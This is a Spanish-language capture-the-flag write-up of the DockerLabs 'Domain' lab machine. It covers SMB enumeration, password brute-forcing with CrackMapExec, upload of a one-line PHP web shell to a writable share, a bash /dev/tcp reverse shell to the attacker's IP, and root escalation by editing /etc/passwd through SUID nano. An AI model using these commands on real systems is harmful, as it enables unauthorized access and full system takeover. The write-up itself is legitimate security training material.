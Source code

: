 # Máquina Domain

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT    STATE SERVICE      REASON
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,139,445 172.17.0.2 -oN targeted
________________________________________________
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-time: 
|   date: 2024-04-18T20:32:47
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```


## Explotación

Inspeccionamos la web:

![Pasted image 20240424213115](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/48db17cc-d22e-4b6b-8403-2cb281ec71bf)

Utilizamos **smbmap** para tratar de ver algo de información sobre el servicio **samba** pero no tenemos permisos para acceder a ningún sitio:

```shell
smbmap -H 172.17.0.2 -P 139
--------------------------------------------------
[+] IP: 172.17.0.2:139	Name: hidden.lab                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	html                                              	NO ACCESS	HTML Share
	IPC$                                              	NO ACCESS	IPC Service 
```

No tenemos ninguna información disponible. 
Utilizando la herramienta **rpcclient**:

```shell
rpcclient -U '' -N 172.17.0.2
querydispinfo and enumdomusers
------------------------------------------
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james	Name: james	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob	Name: bob	Desc: 
```

Encontramos un usuario **james** y un usuario **bob**.
Probamos a hacer fuerza bruta contra el servicio **samba**, con la herramienta **hydra**

```shell
 hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2
 --------------------------------------------------------------------
 [ERROR] target smb://172.17.0.2:445/ does not support SMBv1
```

Me da error así, he recurrido a **metasploit** con el módulo de **scanner** para el servicio **smb** pero también me daba error. Finalmente he usado **CrackMapExec**.
Al usar el **rockyou.txt** me daba error por caracteres especiales que contiene, así que he cogido las 10.000 primeras contraseñas y las he metido en un nuevo diccionario -> **top10krockyou.txt** que es el que he empleado para la fuerza bruta:

```shell
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/top10krockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
```

Tras esperar un poco encontramos las credenciales del usuario **bob** -> **bob:star**

Revisamos que permisos tenemos con el usuario que hemos descubierto **bob**

```shell
smbmap -H 172.17.0.2 -u "bob" -p "star"
----------------------------------------------------------------------------------
[+] IP: 172.17.0.2:445	Name: unknown                                           
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	html                                              	READ, WRITE	HTML Share
	IPC$                                              	NO ACCESS	IPC Service (86b2d8c57a0e server (Samba, Ubuntu))
```

Vemos que tenemos permiso de **escritura** sobre el disco compartido **html**, si le echamos un vistazo, encontramos dentro el **index.html** de la web. Suponemos que la web lo está tomando de ahí, de forma que si subimos algo a este recurso compartido, es probable que se represente en la web. Así que subiremos una reverse shell:

Creamos el **cmd.php**:

```php
<?php
	system($_GET['cmd']);
?>
```

```shell
smbclient //172.17.0.2/html -U bob
put cmd.php
------------------------------------------
putting file cmd.php as \cmd.php (15,6 kb/s) (average 15,6 kb/s)
```

Nos dirigimos a la web a ver si estábamos en lo correcto:

![Pasted image 20240425105559](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eb7db9e8-4967-40f4-bd36-e3e61355bc7c)

Hemos logrado la ejecución remota de comandos, **RCE**.

Nos enviamos una **reverse shell** y nos ponemos en escucha con **netcat**

```shell
sudo nc -nlvp 443
```

Y en la URL:

```
http://172.17.0.2/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261" 
```

Estamos dentro !

------------------------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

----------------------
## Escalada de privilegios

Si miramos el **/etc/passwd**:

```shell
cat /etc/passwd
-------------------------------
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
james:x:1001:1001:james,,,:/home/james:/bin/bash
```

Vemos un par de usuarios con consola que son los mismos que encontramos con **rpcclient**.

Migramos a **bob** con su contraseña **star**:

```shell
su bob
```

Filtramos por archivos con permisos **SUID** de los que podamos abusar.

```shell
find / -perm -4000 2>/dev/null
-----------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/nano
```

Nos encontramos con **nano**, del que ya hemos abusado otras veces. Si no sabemos cómo, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

He probado a salir del contexto de nano como root pero no lo he conseguido. Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña.

```
root:x:0:0:root:/root:/bin/bash
```

Suprimimos la "**x**":

```
root::0:0:root:/root:/bin/bash
```

```shell
su root
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
